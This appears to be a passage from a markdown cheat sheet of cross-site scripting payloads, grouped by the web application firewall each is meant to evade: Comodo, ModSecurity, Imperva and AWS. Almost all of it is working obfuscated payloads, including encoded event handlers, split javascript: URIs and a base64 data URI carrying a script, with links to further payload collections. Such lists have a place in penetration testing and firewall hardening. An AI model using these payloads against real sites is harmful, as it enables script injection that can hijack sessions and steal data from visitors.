 4. Comodo WAF
```
<input/oninput='new Function`confir\u006d\`0\``'>

<p/ondragstart=%27confirm(0)%27.replace(/.+/,eval)%20draggable=True>dragme
```

5. ModSecurity
```
<a href="jav%0Dascript&colon;alert(1)">
```

6. Imperva
```
<input id='a'value='global'><input id='b'value='E'><input 'id='c'value='val'><input id='d'value='aler'><input id='e'value='t(documen'><input id='f'value='t.domain)'><svg+onload[\r\n]=$[a.value+b.value+c.value](d.value+e.value+f.value)>

<x/onclick=globalThis&lsqb;'\u0070r\u006f'+'mpt']&lt;)>clickme

<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click

<a69/onclick=write&lpar;&rpar;>pew

<details/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];"/open>

<svg onload\r\n=$.globalEval("al"+"ert()");>

<svg/onload=self[`aler`%2b`t`]`1`>

%3Cimg%2Fsrc%3D%22x%22%2Fonerror%3D%22prom%5Cu0070t%2526%2523x28%3B%2526%2523x27%3B%2526%2523x58%3B%2526%2523x53%3B%2526%2523x53%3B%2526%2523x27%3B%2526%2523x29%3B%22%3E

<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>

<img/src=q onerror='new Function`al\ert\`1\``'>

<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
```

7. AWS
```
<script>eval(atob(decodeURIComponent(confirm`1`)))</script>
```

If you want to see the other payload for other WAF, check this [link](https://github.com/0xInfection/Awesome-WAF)

## References
- [Brute Logic](https://brutelogic.com.br/)
- [Awesome-WAF](https://github.com/0xInfection/Awesome-WAF)
- Some random twitter posts